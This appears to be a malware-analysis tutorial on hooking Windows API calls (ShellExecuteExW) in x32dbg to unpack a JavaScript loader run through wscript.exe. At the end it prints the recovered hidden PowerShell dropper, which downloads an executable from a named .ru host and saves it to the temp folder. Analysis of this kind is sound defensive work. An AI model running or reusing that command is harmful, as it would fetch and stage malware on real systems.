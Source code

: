 ***Overview*** 

Original idea credits go to Open Analysis Labs(OALabs). This will cover using a debugger to hook standard Windows API function calls used in JavaScript/VBScript loaders used in malware to analyze the original loader.  

***Tools***

- JavaScript Loader Sample.  `Hash: 7616fd825e223fb6f7bfdc0c025a2cf0196b8959cad69eda959c21a7d31e71d5`

- x32/64dbg

***Understanding wscript.exe ***

Essentially when Windows runs a JavaScript/VBScript, which calls Windows API functions, it will use wscript.exe as a middle man between the script and the Windows API.

It looks something like the following:

`loader.js -> wscript.exe -> ShellExecuteA`

***Some common function calls used in cases like this are:***

WSASocketW  GetAddrInfoExW  WSASend 

WSAStarup    URLDownloadToFile  ShellExecuteA

ShellExecuteExW 

***Common DLLs:***

shell32.dll and ws2_32.dll

***Technical Begin***

Attach the debugger to wscript.exe located at `C:\Windows\SysWOW64\wscript.exe`

Provide the path to the script file so wscript.exe can execute it. You can do this in x32dbg by going to `File -> Change Command Line`

At this point, you should be ready to go. In the case of this loader, we need to set a breakpoint on shell32.dll. We can not set breakpoints yet on the function calls because they have not been imported yet hence why we need to break on the import of shell32.dll and then move forward on setting up hooks (Breakpoints) on the common function calls. 

Navigate to Breakpoints and in the Command section at the bottom, set a breakpoint on shell32.dll, and then you should see it enabled. 

![image](https://user-images.githubusercontent.com/95584654/158504637-ce708340-f9fd-4aa7-a937-fb755e69bf91.png)


At this point, you can start the debugger and continue until you hit the breakpoint to load the shell32.dll. Looking at the Breakpoint page, we can see that we have one hit on our breakpoint. Navigate to the Symbols page and click on shell32.dll. At this point, you can see all of the symbols. Filter for ShellExecuteExW and set a hook (Breakpoint) on it. 

![image](https://user-images.githubusercontent.com/95584654/158504684-d978c75f-423c-4929-8a4d-6a5892ae803c.png)


After setting the breakpoint, continue debugging and you should hit the breakpoint on ShellExecuteExW. We want to look at the parameters for the function that were pushed on the stack—looking at the MSDN documentation for ShellExecuteExW. The only "parameter" is a pointer to the SHELLEXECUTEINFOW structure. 

Looking at the structure, the two main parameters we want to look at are LPCSTR lpVerb and LPCSTR lpFile. 

You can read about the structure here: https://docs.microsoft.com/en-us/windows/win32/api/shellapi/ns-shellapi-shellexecuteinfoa 

Since we hit our hook on the ShellExecuteExW, we can look at the stack to identify the parameters for the SHELLEXECUTEINFOW structure. 

![image](https://user-images.githubusercontent.com/95584654/158504728-ec02b60c-58f1-45de-8dcc-8f6419620306.png)


We can see the cleartext parameters used in the dropper by doing this. At this point, we can right-click on those lines and select

`Copy -> Copy Selected Lines`

It is calling PowerShell as we can see. Let's take a look at the cleaned up command below: 

```
cmd "/c start /b powershell -WindowStyle Hidden 
$http_request = New-Object -ComObject Msxml2.XMLHTTP;
$adodb = New-Object -ComObject ADODB.Stream;
$path = $env:temp + '\\1079.exe';
$http_request.open('GET', 'http://kanalmalakotv.ru/documenty/pax18.exe?rnd=12802', $false);
$http_request.send();
if($http_request.Status -eq \"200\"){$adodb.open();$adodb.type = 1;$adodb.write($http_request.responseBody);
$adodb.position = 0;
$adodb.savetofile($path);
$adodb.close();}
```
